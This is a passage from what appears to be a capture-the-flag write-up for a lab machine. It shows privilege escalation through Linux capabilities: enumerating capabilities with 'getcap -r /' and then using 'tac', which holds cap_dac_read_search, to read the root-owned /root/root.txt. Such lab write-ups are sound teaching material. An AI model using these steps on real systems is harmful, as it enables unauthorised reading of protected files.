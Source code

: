 Checking the `app-dev` folder further we find a `0.1` version of the `logMonitor` program. Running the program with the 
same command line flags outputs the contents of the `root` owned log files. Typically when we've found a file that can 
act as another user its flagged as `suid` or `guid` but that is not the case here:

```
monitor@waldo:~/app-dev/v0.1$ ls -lah logMonitor-0.1
-r-xr-x--- 1 app-dev monitor 14K May  3  2018 logMonitor-0.1
```

If the file is not `suid` or `guid`, how are we able to use it to read `root` owned files? The answer is Linux capabilities.

From the [linux capabilities man page:](http://man7.org/linux/man-pages/man7/capabilities.7.html)

```
Starting with kernel 2.2, Linux divides the privileges traditionally
associated with superuser into distinct units, known as capabilities,
which can be independently enabled and disabled.  Capabilities are a
per-thread attribute.
```

Let's check the capabilities of the `logMonitor-0.1` file:

```
monitor@waldo:~/app-dev/v0.1$ getcap /home/monitor/app-dev/v0.1/logMonitor-0.1 2>/dev/null
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

We see the file has a special capability - `cap_dac_read_search+ei`. From the same man page:

```
CAP_DAC_READ_SEARCH
      * Bypass file read permission checks and directory read and
        execute permission checks;
      * invoke open_by_handle_at(2);
      * use the linkat(2) AT_EMPTY_PATH flag to create a link to a
        file referred to by a file descriptor.
```

Interesting! We can bypass read permission checks entirely with this file. Let's see if any other files have that capability set:

```
monitor@waldo:~/app-dev/v0.1$ getcap -r / 2>/dev/null
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

We see `tac`, which reads files backwards (`cat` backwards, get it?). Since we're here to read a file, that works for us!

`tac /root/root.txt`

Success! This was a fun box. I did not know about Linux capabilities and it's an interesting thing to have added to my tool kit. I hope you learned something as well!

